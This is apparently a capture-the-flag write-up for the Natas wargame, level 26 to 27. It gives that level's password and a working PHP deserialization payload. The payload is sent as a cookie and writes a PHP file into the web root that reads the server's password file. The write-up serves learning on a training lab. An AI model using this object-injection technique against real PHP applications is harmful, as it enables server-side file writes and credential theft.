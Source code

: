 # username
natas27
# password
u3RRffXjysjgwFU6b9xa23i6prmUsYne
# web app vuln
insecure deserialization
# method of solve
We notice from the web app source code that the app serializes data and turn it into a cookie:
```
setcookie("drawing",base64_encode(serialize($drawing)));
```
> When we extract the cookie from the app after submitting data, we see that it contains the data from the app in serialized form
> That means that we can serialize an object that the application uses and inject PHP code that does what we want
```
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="HackerFrogs";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
        $this->logFile = "/var/www/natas/natas26/img/hackerfrogs.php";
    }
}

$hacker_object = new Logger();
echo base64_encode(serialize($hacker_object));

?>

```
After writing the file, use PHP on the terminal to convert the object into base64
```
php payload.php
```
Send this cookie `drawing` to the app via Burp Suite Repeater. Afterwards, we will find the password (printed twitce) at the /img/hackerfrogs.php endpoint
